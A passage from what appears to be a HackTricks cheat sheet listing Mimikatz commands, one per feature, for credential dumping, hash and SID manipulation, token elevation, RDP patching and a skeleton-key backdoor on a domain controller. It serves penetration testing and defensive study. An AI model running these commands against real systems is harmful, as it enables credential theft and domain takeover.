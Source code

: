 - **LSADUMP::NetSync**: Impersonate a DC using a computer account's password data.
  - *No specific command provided for NetSync in original context.*

- **LSADUMP::SAM**: Access local SAM database.
  - `mimikatz "lsadump::sam" exit`

- **LSADUMP::Secrets**: Decrypt secrets stored in the registry.
  - `mimikatz "lsadump::secrets" exit`

- **LSADUMP::SetNTLM**: Set a new NTLM hash for a user.
  - `mimikatz "lsadump::setntlm /user:targetUser /ntlm:newNtlmHash" exit`

- **LSADUMP::Trust**: Retrieve trust authentication information.
  - `mimikatz "lsadump::trust" exit`

### Miscellaneous

- **MISC::Skeleton**: Inject a backdoor into LSASS on a DC.
  - `mimikatz "privilege::debug" "misc::skeleton" exit`

### Privilege Escalation

- **PRIVILEGE::Backup**: Acquire backup rights.
  - `mimikatz "privilege::backup" exit`

- **PRIVILEGE::Debug**: Obtain debug privileges.
  - `mimikatz "privilege::debug" exit`

### Credential Dumping

- **SEKURLSA::LogonPasswords**: Show credentials for logged-on users.
  - `mimikatz "sekurlsa::logonpasswords" exit`

- **SEKURLSA::Tickets**: Extract Kerberos tickets from memory.
  - `mimikatz "sekurlsa::tickets /export" exit`

### Sid and Token Manipulation

- **SID::add/modify**: Change SID and SIDHistory.
  - Add: `mimikatz "sid::add /user:targetUser /sid:newSid" exit`
  - Modify: *No specific command for modify in original context.*

- **TOKEN::Elevate**: Impersonate tokens.
  - `mimikatz "token::elevate /domainadmin" exit`

### Terminal Services

- **TS::MultiRDP**: Allow multiple RDP sessions.
  - `mimikatz "ts::multirdp" exit`

- **TS::Sessions**: List TS/RDP sessions.
  - *No specific command provided for TS::Sessions in original context.*

### Vault

- Extract passwords from Windows Vault.
  - `mimikatz "vault::cred /patch" exit`


<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>
